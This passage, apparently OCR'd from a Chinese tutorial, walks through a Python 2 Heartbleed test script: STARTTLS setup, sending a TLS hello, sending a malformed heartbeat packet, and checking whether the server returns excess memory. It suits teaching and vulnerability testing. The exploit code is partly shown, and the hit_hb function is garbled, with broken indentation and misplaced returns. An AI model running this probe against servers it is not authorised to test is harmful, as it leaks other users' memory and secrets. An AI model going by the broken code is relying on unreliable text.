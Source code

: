     if opts.starttls == 'ftp':
        s.recv(BUFSIZ)
        s.send("AUTH TLS\n")
        s.recv(BUFSIZ)
    
    if opts.starttls == 'xmpp': # TODO: This needs SASL
        s.send("<stream:stream xmlns:stream='http://etherx.jabber.org/streams' xmlns='jabber:client' to='%s' version='1.0'\n")
        s.recv(BUFSIZ)
    ```

3.  建立握手连接：

    ```python
    s.send(hello)
    ```

4.  握手过程完成后发送构造攻击payload，恶意心跳包：

    ```python
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s, hb)
    ```

5.  获取心跳响应，对响应数据进行判断，是否存在心脏出血漏洞，这里的判断逻辑是：

    1.  通过函数`typ, ver, pay = recvmsg(s)`获取响应包的type：类型；version：版本；payload：填充数据

    2.  判断数据包的type类型字段是否为十六进制**\x18**转换为10进制是否为**24**，因为**type类型为\x18为心跳扩展的数据包**

    3.  确定是否为心跳包之后判断后续payload的长度，如果payload的长度大于3的话即为存在心脏出血漏洞，反之则不存在。

        ```python
        def hit_hb(s, hb):
         	s.send(hb)
            while True:
                typ, ver, pay = recvmsg(s)
            if typ is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False
        
        	if typ == 24:
                print 'Received heartbeat response:'
                hexdump(pay)
            if len(pay) > 3:
            	print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
            	print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True
        
             if typ == 21:
                print 'Received alert:'
                hexdump(pay)
                print 'Server returned error, likely not vulnerable'
                return False
        ```
